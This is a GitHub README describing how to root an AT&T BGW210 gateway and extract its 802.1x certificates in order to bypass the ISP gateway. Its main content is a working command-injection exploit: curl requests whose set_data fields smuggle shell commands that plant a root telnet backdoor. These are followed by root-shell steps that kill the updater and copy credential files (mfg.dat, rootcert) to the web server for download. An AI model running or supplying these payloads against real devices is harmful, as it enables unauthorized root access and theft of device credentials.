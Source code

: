 # BypassAttRG

This method works to rip the 802.1x keys from BGW210.

<!-- **Background**: I switched to AT&T fiber and I hate AT&T's residential gateways -->


## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A BGW210

[Back to menu](#menu)
## Extract Certificates Tested
The certificates extracted from both NVG589 and BGW210 work fine from my tests using Mikrotik's RB4011 and CCR2004 w/switch in front to remove VLAN0 802.1p tags that AT&T feels they MUST use.

### Downgrade

Download the signed 1.0.29 firmware, then go to http://192.168.1.254

Click Diagnostics, then Update.

You'll select 1.0.29.

Give the gateway 3 minutes to restart since it's a POS.

## Ripping Certs

Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha , type your device access code to login, and assign a static IP to your PC that you'll be executing the CURL commands from.

I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.

Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.

Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.

Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help.

(tech has no password when prompted)

  ```
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
  ```
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type ! and press enter to elevate to a root sh terminal

Now, type top and let the telnet terminal populate with the running processes of the RG.

Once the top command displays all of the running process, look for a process labelled:   
  ```
/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware
  ```
Press CTRL + C to break out of the top command.

Type kill PID_number_of_udpsvd; 
For example: kill 1048 (in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself).

This kills the auto update script so that you can make changes, or copy your 802.11x certificates without the ATT firmware automatically updating when you aren't ready for it. Not really as important if you don't have the RG connected to the ONT (I didn't in the video).

#### Extract Certificates
- In BGW210, run the following commands in order. Make sure you are in root shell. Reminder - Type `!`. It switches to root shell.
  ```
  mount -o remount,rw /dev/ubi0 /  
  mount mtd:mfg -t jffs2 /mfg
  cp /mfg/mfg.dat /www/att/mfg.dat
  mount mtd:mfg -t jffs2 /mfg
  Download: http://192.168.1.254/mfg.dat
  
  ## Next:
  
  cd /tmp
  tar cf cert.tar /etc/rootcert/
  cp cert.tar /www/att/images
  Download: http://192.168.1.254/images/cert.tar
  ```
- Reminder: Download http://192.168.1.254/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.


[Back to menu](#menu)
## Configuring 802.1x authentication
### Decode Credentials 
Credit: [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)

- Download decoder v1.0.4: [win](decoder/win/mfg_dat_decode_1_04.zip), [linux](decoder/linux/mfg_dat_decode_1_04.tar.gz), [mac](decoder/mac/mfg_dat_decode_1_04_macosx.zip)
  - [Original download page](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)
- Copy *mfg.dat*, unzip *cert.tar* to the same location as *mfg_dat_decode*.
- Run *mfg_dat_decode*. You should get a file like this: *EAP-TLS_8021x_XXXX*.

## Miscellaneous

### Compile Entware packages from source
Some useful links
- [Compile-packages-from-sources](https://github.com/Entware/Entware/wiki/Compile-packages-from-sources)
- [Compile-custom-programs-from-source](https://github.com/RMerl/asuswrt-merlin/wiki/Compile-custom-programs-from-source)

[Back to menu](#menu)
## Credits & References
- [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html): EAP-TLS credentials decoder and the method to extract */mfg/mfg.dat*
- [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui): Rooting The NVG510 from the WebUI
- [nomotion](https://www.nomotion.net/blog/sharknatto/): NVG589 root exploit
- [dslreports.com](https://www.dslreports.com/forum/uverse): A great forum with many useful information.
- [jsolo1@dslreports.com](https://www.dslreports.com/profile/422016): Provides many helpful & useful suggestions.
- [Streiw](https://www.reddit.com/r/ATT/comments/g59rwm/bgw210700_root_exploitbypass/): Creator of BGW210 Pastebin guide and discover of exploit and main hero of BGW210 root.

[Back to menu](#menu)
